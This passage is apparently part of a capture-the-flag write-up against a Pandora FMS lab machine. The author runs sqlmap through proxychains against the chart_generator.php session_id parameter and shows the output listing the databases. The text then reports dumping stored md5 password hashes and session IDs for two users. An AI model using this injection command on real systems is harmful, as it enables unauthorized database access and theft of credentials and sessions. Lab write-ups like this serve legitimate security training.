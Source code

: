 I can now use sqlmap with proxychains on the Pandora FMS.

`proxychains sqlmap -u http://localhost.localdomain/pandora_console/include/chart_generator.php?session_id= --dbs`

<pre>
[21:21:12] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 20.04 or 19.10 (eoan or focal)
web application technology: PHP, Apache 2.4.41
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[21:21:12] [INFO] fetching database names
[proxychains] Strict chain  ...  127.0.0.1:9999  ...  localhost.localdomain:80  ...  OK
[21:21:12] [WARNING] reflective value(s) found and filtering out
[proxychains] Strict chain  ...  127.0.0.1:9999  ...  localhost.localdomain:80  ...  OK
[21:21:13] [INFO] retrieved: 'information_schema'
[proxychains] Strict chain  ...  127.0.0.1:9999  ...  localhost.localdomain:80  ...  OK
[21:21:13] [INFO] retrieved: 'pandora'
available databases [2]:
[*] information_schema
[*] pandora
</pre>

After enumering through the pandora database, i found 2 interesting tables, `tpassword_history` and `tsessions_php`.

Dumping the password history table gave me the md5 hashed passwords of Matt and Daniel.
![](/assets/img/Icons/Pandora/passdump.png)

Dumping the sessions_php table gave me session id's for both matt and daniel.
